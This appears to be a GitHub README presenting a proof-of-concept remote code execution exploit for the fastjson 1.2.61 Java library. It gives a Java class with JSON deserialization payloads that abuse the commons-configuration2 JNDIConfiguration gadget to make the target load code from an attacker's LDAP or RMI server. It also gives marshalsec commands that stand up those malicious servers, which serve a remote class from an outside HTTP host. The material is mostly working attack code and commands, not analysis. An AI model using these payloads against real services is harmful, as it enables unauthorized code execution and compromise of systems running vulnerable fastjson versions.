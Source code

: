 # fastjson-1.2.61-RCE

![](./Fastjson-1.2.61-RCE.gif)
## FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://10.10.20.166:1099/ExportObject\"}";

        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}

//        fastjson 1.2.60
//        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
```
## LDAP PORT 1389

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`

## RMI PORT 1099

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

![](./fastjson_1_2_61.jpg)

## diff poc

```
1.2.60 
org.apache.commons.configuration.JNDIConfiguration
>>>commons-configuration-1.4.jar


1.2.61
org.apache.commons.configuration2.JNDIConfiguration
>>>commons-configuration2-2.0.jar
```

## 参考链接
https://mp.weixin.qq.com/s/PHB3dBgvDGdqPhhB1dFfNA

https://github.com/LeadroyaL/fastjson-blacklist

https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java



